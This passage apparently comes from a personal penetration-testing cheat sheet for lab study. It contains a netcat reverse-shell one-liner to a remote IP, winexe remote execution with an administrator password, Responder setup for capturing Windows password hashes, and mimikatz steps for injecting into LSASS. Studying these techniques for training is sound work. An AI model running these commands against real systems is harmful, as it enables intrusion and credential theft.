 






117) useful reverse shell
/bin/nc.traditional -c /bin/bash 192.168.6.122 33666


118) pyinstaller
python pyinstaller.py --onefile ms11-080.py


119) winexe tool
a linux tool that utilizes smb to execute commands on a windows machine which is very cool


root@kali:~# winexe -U 'Administrator%s3cr3t' //192.168.1.225 'cmd.exe /c echo "this is running on windows"'
"this is running on windows


using wine.exe with a domain account
root@kali:~/JD# winexe -U thinc/robert  //10.11.1.218 'cmd.exe /c whoami'






120) responder utility
sniff/intercept/steam passor dhashes from windows machines on the network.




you edit /etc/responder/Responder.conf putting your target there:


; Specific IP Addresses to respond to (default = All)
; Example: RespondTo = 10.20.1.100-150, 10.20.3.10
RespondTo = 10.11.1.220
; Specific NBT-NS/LLMNR names to respond to (default = All)
; Example: RespondTo = WPAD, DEV, PROD, SQLINT
RespondToName =




Then you run the command
responder -I tap0 and keep watching for any dummped things out there.




121) mimikatz tool
the beauty and the beast IMAX


#run the tool and get into the mimikaz prompt
mimikatz.exes
# enable debug mode
privilege::debug
#inject sekurlsa.dd into LSASS using inject process command
inject::process lsass.exe sekurlsa.dll
